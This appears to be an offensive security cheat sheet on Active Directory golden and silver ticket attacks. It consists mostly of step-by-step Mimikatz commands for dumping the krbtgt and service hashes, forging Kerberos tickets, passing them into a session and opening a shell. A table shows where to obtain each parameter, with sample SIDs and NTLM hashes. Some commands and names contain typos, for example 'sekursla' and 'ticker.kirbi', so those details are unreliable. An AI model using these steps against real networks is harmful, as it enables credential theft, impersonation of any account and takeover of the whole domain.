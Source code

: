 A golden ticket is a TGT crafted with the KRBTGT AD serivce's password, using which you can imitate any account on the entire AD.
https://tools.thehacker.recipes/mimikatz/modules/kerberos/golden
##### Requirements
Admin level access to any user on the AD

##### Dumping the krbtgt hash
Use Mimikatz to dump the hash:
```
./mimikatz.exe
privilege::debug  // If this returns anything but "Privilege '20' OK", Mimikatz has not been run as Admin.
lsadump::dcsync /user:krbtgt@DOMAIN  // Might throw an error, use the alternative version.
lsadump::lsa /inject /name:krbtgt  // If you have DC Privilege, use this. For silver ticket creation, change the name.
```
On the DC:
```
privilege::debug  // If this returns anything but "Privilege '20' OK", Mimikatz has not been run as Admin.
lsadump::lsa /patch
lsadump::lsa /inject /name:krbtgt  // If you have DC Privilege, use this. For silver ticket creation, change the name.
```


##### Forging a Golden ticket
```
kerberos::golden /user:CURRENT_USER /domain:controller.local /sid:MIMIKATZ_OUTPUT_SID /krbtgt:KRBTGT_NTLM /ptt
misc::cmd
```
Note: BEFORE 2022, the Key Distribution Center (`KDC`) will only check if the  `/user` -specified value is correct if the ticket is less than 20 minutes old. So as long as the ticket is older than 20 minutes, the specified user does not even need to exist.

`/sid`: The domain's SID (obtain via mimikatz output, or by using `Get-LocalUser -name krbtgt | select sid` and removing the last identifier (RID), or `Get-DomainUser | select sid`)
`/krbtgt`: The KRBTGT service's NTLM hash.

The Golden ticket should give access as a Domain Conroller.

The ticket will now be stored in the current directory as "ticker.kirbi".

##### Exploiting using the Golden ticket
Load the ticket into memory:
```
kerberos::ptt TICKET_FILE
```
On another command prompt, check using:
```
klist // If it has a TGT, it has succeeded.
```
If you have RDP, create a remote shell:
```
misc::cmd
```
Otherwise, you can access whatever machine you want to as the Administrator via normal CMD, as long as you have the TGT active.

#### Silver tickets
https://tools.thehacker.recipes/mimikatz/modules/kerberos/golden
Silver tickets are generated the same way as golden tickets, but with a few extra parameters:

```
kerberos::golden /sid:DOMAIN_SID /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:TARGET_USER_NTLM /user:TARGET_USER
```


| Argument   | Description                                         | Example                                    | Command                                                          |
| ---------- | --------------------------------------------------- | ------------------------------------------ | ---------------------------------------------------------------- |
| `/sid`     | The domain SID (the user SID without the last part) | `S-1-5-21-1987370270-658905905-1781884369` | `whoami /user`                                                   |
| `/domain`  | The domain name                                     | `corp.com`                                 | `Get-Domain`                                                     |
| `/ptt`     | Enable passing the ticket                           |                                            |                                                                  |
| `/target`  | The full name of the target machine                 | `web04.corp.com`                           | `Get-NetUser -SPN \| select samaccountname,serviceprincipalname` |
| `/service` | The protocol of the SPN                             | `http`                                     | `Get-NetUser -SPN \| select samaccountname,serviceprincipalname` |
| `/rc4`     | The NTLM hash of the SPN                            | `4d28cf5252d39971419580a51484ca09`         | `sekursla::logonpasswords`                                       |
| `/user`    | The user, can be any.                               | `jeff`                                     | `Get-DomainUser`                                                 |
